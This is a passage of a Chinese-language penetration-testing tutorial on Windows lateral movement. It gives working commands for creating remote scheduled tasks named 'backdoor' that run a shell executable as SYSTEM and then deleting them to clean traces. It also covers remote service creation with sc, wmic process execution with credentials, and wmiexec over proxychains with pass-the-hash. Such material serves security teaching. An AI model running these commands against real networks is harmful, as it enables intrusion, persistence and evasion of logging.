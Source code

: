 关于此方法我们可以先通过 copy 上传恶意文件然后通过 at 来执行它，或者直接通过 powershell 远程加载上线等

#### **schtasks**

at 命令已经被 Windows Vista、Windows Server 2008 及之后版本的操作系统废弃了，取而代之的是 schtasks 命令。

横向移动的大致思路与 at 差不多。

```
在目标主机上创建一个名称为“backdoor”的计划任务。该计划任务每分钟启动一次，启动程序为我们之前到C盘下的shell.exe，启动权限为system。
schtasks /create /s 192.168.183.130 /tn backdoor /sc minute /mo 1  /tr c:\shell.exe /ru system /f 

但也有些时候，由于当前权限或组策略设置等原因，该schtasks方法远程创建计划任务可能会报错拒绝访问,遇到这种情况，我们可以加上/u和/p参数分别设置高权限用户名和密码 
schtasks /create /s 192.168.183.130 /u username /p password /tn backdoor /sc minute /mo 1 /tr c:\shell.exe /ru system /f

另外，在我们创建好计划任务后，可以通过下列指令立即让计划任务执行（如果拒绝访问的话就加上/u /p参数）
schtasks /run /s 192.168.183.130 /i /tn backdoor  // i：忽略任何限制立即运行任务

计划任务执行后需要清理痕迹
schtasks /delete /s 192.168.183.130 /tn "backdoor" /f
```

#### sc

这个命令可以操控服务。

```
sc \\[主机名/IP] create [servicename] binpath= "[path]"   #创建服务，其中binpath可以是某个exe文件的路径，也可以是一段指令。当为路径时，服务启动时会自动执行该exe文件，当为指令时，服务启动时会自动执行该指令
sc \\[host] start [servicename] 启动某个服务
sc \\[host] delete [servicename]   #删除服务
```

wmi
---

从 Windows 98 开始，Windows 操作系统都支持 WMI。WMI 是由一系列工具集组成的，可以通过 / node 选项使用端口 135 上的远程过程调用 (RPC) 进行通信以进行远程访问，它允许系统管理员远程执行自动化管理任务，例如远程启动服务或执行命令。并且 wimc 执行命令时不会留下日志信息。

通过 wmic 在远程主机上开启进程

```
wmic /node:192.168.183.130 /user:administrator /password:Liu78963 process call create "command"
```

### wmiexec

通过 wmic 创建远程进程时，不会有回显，需要通过 ipc$ 链接 type，重定向等手段才能看到回显结果，就很不方便，wmicexec 的出现就很好的解决了这一痛点。具体原理是通过 wmic 在 135 端口进行交互，再把内容通过 445 端口传回来。

wmiexec 普遍来说有三种版本. py，exe，.vbs。可以走 socks5 协议代入内网，杜绝了 bypassav 的麻烦。  
(exe 版本网上似乎很不好找) 这里用 python 版本，下载链接 [https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_22，](https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_22%EF%BC%8C) impacket 按照网上安装来弄就行了  
1. 环境 linux，我们配置好 proxychanis 代入内网（略  
2.proxychains wmiexec.py 域名 / 用户名: 密码 @ip 获得 shell  
3. 也可以进行 hash 传递 python wmiexec.py -hashes LM Hash:NT Hash 域名 / 用户名 @目标 IP
